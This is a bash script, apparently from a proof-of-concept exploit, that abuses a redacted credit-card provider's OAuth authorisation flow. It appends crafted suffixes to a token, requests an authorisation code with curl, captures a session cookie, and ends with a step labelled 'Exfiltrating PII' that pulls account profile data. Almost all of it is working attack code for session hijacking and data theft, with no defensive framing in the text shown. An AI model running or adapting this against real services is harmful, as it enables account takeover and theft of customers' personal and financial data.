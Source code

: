 ```bash


echo "Got Token: ${token}R0eXBlAANDVFMAAlMxAAIwMw..*"
echo "Appending R0eXBlAANDVFMAAlMxAAIwMw..* to token1 and R0eXBlAANDVFMAAlMxAAIwMQ..* to token2"
token1=$(echo -n "${token}R0eXBlAANDVFMAAlMxAAIwMw..*")
token2=$(echo -n "${token}R0eXBlAANDVFMAAlMxAAIwMQ..*")

echo "[3] Fetching oauth code..."
codetoken1=$(curl -s -k $'https://acc-data.redacted.com/web-authorize' -X $'POST' -H $'Host: acc-data.redacted.com' -H $'Connection: keep-alive' -H $'Content-Length: 298' -H $'sec-ch-ua-platform: "Windows"' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36' -H $'Accept: application/json, text/plain, */*' -H $'sec-ch-ua: "Chromium";v="140", "Not=A?Brand";v="24", "Google Chrome";v="140"' -H $'Content-Type: application/json' -H $'sec-ch-ua-mobile: ?0' -H $'Origin: https://auth.redacted.com' -H $'Sec-Fetch-Site: same-site' -H $'Sec-Fetch-Mode: cors' -H $'Sec-Fetch-Dest: empty' -H $'Referer: https://auth.redacted.com/' -H $'Accept-Encoding: gzip, deflate, br, zstd' -H $'Accept-Language: en-US,en;q=0.9,ja;q=0.8' --data '{"idsToken":"'$token1'","responseType":"code","clientId":"clientID","scope":"openid iid uci profile card.account","redirectUri":"https://acc-data.redacted.com/auth/callback"}' | cut -f 4 -d '"')
if [[ $codetoken1 == *"code="* ]]; then
	echo "Got code on first try, no need for token2..."
    codeurl=$(echo -n "$codetoken1")
else
	echo "Didn't get token on first try, let's try token2..."
	codetoken2=$(curl -s -k $'https://acc-data.redacted.com/web-authorize' -X $'POST' -H $'Host: acc-data.redacted.com' -H $'Connection: keep-alive' -H $'Content-Length: 298' -H $'sec-ch-ua-platform: "Windows"' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36' -H $'Accept: application/json, text/plain, */*' -H $'sec-ch-ua: "Chromium";v="140", "Not=A?Brand";v="24", "Google Chrome";v="140"' -H $'Content-Type: application/json' -H $'sec-ch-ua-mobile: ?0' -H $'Origin: https://auth.redacted.com' -H $'Sec-Fetch-Site: same-site' -H $'Sec-Fetch-Mode: cors' -H $'Sec-Fetch-Dest: empty' -H $'Referer: https://auth.redacted.com/' -H $'Accept-Encoding: gzip, deflate, br, zstd' -H $'Accept-Language: en-US,en;q=0.9,ja;q=0.8' --data '{"idsToken":"'$token2'","responseType":"code","clientId":"clientId","scope":"openid iid uci profile card.account","redirectUri":"https://acc-data.redacted.com/auth/callback"}' | cut -f 4 -d '"')
	codeurl=$(echo -n "$codetoken2")
fi

if [[ ! $codeurl == *"code="* ]]; then
	echo "Failed to fetch code..."
	exit 0
fi
echo "Got oauth code: $codeurl"

echo "[4] Fetching session cookie..."
cookie=$(curl -i -s $codeurl -H "Cookie: w82S5XX1=$w8" | grep "cid=" | cut -f 2 -d "=" | cut -f 1 -d ";")
echo "Got session cookie: cid=$cookie"

echo "[5] Exfiltrating PII..."
curl -s -H "Origin: https://creditcard.redacted.com" https://acc-data.redacted.com/profile -H "Cookie: cid=$cookie" | jq .

```
